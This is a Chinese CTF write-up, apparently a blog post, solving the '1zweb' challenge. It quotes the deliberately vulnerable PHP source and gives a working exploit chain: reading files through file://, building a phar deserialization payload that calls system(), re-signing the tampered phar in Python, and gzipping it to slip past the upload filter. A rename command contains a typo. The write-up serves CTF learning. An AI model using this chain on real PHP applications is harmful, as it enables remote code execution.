 # 【NSSRound#4 SWPU】1zweb


# [NSSRound#4 SWPU]1zweb

## 思路
* 非预期解（就是很直接🤑）

  * 直接使用file://伪协议读文件

    ```
    查询文件处
    file:///flag
    /flag
    ```

* 正常解题

  读文件处直接读取index.php， upload.php的源码
  
  &gt; 这里需要看页面源码，因为被注释一部分
  
  index.php
  
  ```
  &lt;!--index.php--&gt;
  &lt;?php
  class LoveNss{
      public $ljt;
      public $dky;
      public $cmd;
      public function __construct(){
          $this-&gt;ljt=&#34;ljt&#34;;
          $this-&gt;dky=&#34;dky&#34;;
          phpinfo();
      }
      public function __destruct(){
          if($this-&gt;ljt===&#34;Misc&#34;&amp;&amp;$this-&gt;dky===&#34;Re&#34;)
              eval($this-&gt;cmd);
      }
      public function __wakeup(){
          $this-&gt;ljt=&#34;Re&#34;;
          $this-&gt;dky=&#34;Misc&#34;;
      }
  }
  $file=$_POST[&#39;file&#39;];
  if(isset($_POST[&#39;file&#39;])){
      echo file_get_contents($file);
  }
  ```
  
  `file_get_content` 可以触发 phar 反序列化，但是要绕过`__wakeup` 
  
  upload.php
  
  ```
  &lt;!--upload.php--&gt;
  &lt;?php
  if ($_FILES[&#34;file&#34;][&#34;error&#34;] &gt; 0){
      echo &#34;上传异常&#34;;
  }
  else{
      $allowedExts = array(&#34;gif&#34;, &#34;jpeg&#34;, &#34;jpg&#34;, &#34;png&#34;);
      $temp = explode(&#34;.&#34;, $_FILES[&#34;file&#34;][&#34;name&#34;]);
      $extension = end($temp);
      if (($_FILES[&#34;file&#34;][&#34;size&#34;] &amp;&amp; in_array($extension, $allowedExts))){
          $content=file_get_contents($_FILES[&#34;file&#34;][&#34;tmp_name&#34;]);
          $pos = strpos($content, &#34;__HALT_COMPILER();&#34;);
          if(gettype($pos)===&#34;integer&#34;){
              echo &#34;ltj一眼就发现了phar&#34;;
          }else{
              if (file_exists(&#34;./upload/&#34; . $_FILES[&#34;file&#34;][&#34;name&#34;])){
                  echo $_FILES[&#34;file&#34;][&#34;name&#34;] . &#34; 文件已经存在&#34;;
              }else{
                  $myfile = fopen(&#34;./upload/&#34;.$_FILES[&#34;file&#34;][&#34;name&#34;], &#34;w&#34;);
                  fwrite($myfile, $content);
                  fclose($myfile);
                  echo &#34;上传成功 ./upload/&#34;.$_FILES[&#34;file&#34;][&#34;name&#34;];
              }
          }
      }else{
          echo &#34;dky不喜欢这个文件 .&#34;.$extension;
      }
  }
  ?&gt;
  ```
  
  * 对上传的文件进行了 gif、jpeg、jpg、png 的后缀名检测
  * 在上传的文件内容中搜索`__HALT_COMPILER ()`; 第一次出现的位置，搜索到即 echo 发现 phar，否则如果文件不存在则上传成功
  * 对 phar 文件内容进行检测，要求不能存在 `__HALT_COMPILER();`
  
* `__wakeup`绕过

  修改序列化成员名数量

  但是需要重新签名

* 绕过`__HALT_COMPILER();`检测

  通过zip加密

## EXP

先生成phar反序列化文件

```
&lt;?php
class LoveNss{
    public $ljt=&#34;Misc&#34;;
    public $dky=&#34;Re&#34;;
    public $cmd=&#34;system(&#39;ls /&#39;);&#34;;
}

$a = new LoveNss();

$phar = new Phar(&#34;phar.phar&#34;);
$phar-&gt;startBuffering();
$phar-&gt;setStub(&#34;&lt;?php __HALT_COMPILER(); ?&gt;&#34;); //设置stub
$phar-&gt;setMetadata($a); //自定义的meta-data
$phar-&gt;addFromString(&#34;test.txt&#34;, &#34;test&#34;); //添加要压缩的文件
//签名自动计算,默认是SHA1
$phar-&gt;stopBuffering();
```

然后修改phar.phar的序列化值。

&gt; 用hex查看原文

然后重新签名

```
from hashlib import sha1

file = open(&#39;phar.phar&#39;, &#39;rb&#39;).read()

data = file[:-28]  # 要签名的部分是文件头到metadata的数据。

final = file[-8:]

newfile = data &#43; sha1(data).digest() &#43; final

open(&#39;newpoc.phar&#39;, &#39;wb&#39;).write(newfile)
```

然后重命名，绕过检测phar

```
&lt;?php
system(&#34;gzip newpoc.phra&#34;);
rename(&#34;newpoc.phar.gz&#34;, &#34;1.jpg&#34;);
```




## 总结
* phar反序列化
* 文件上传

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-nssround%234-swpu1zweb/  

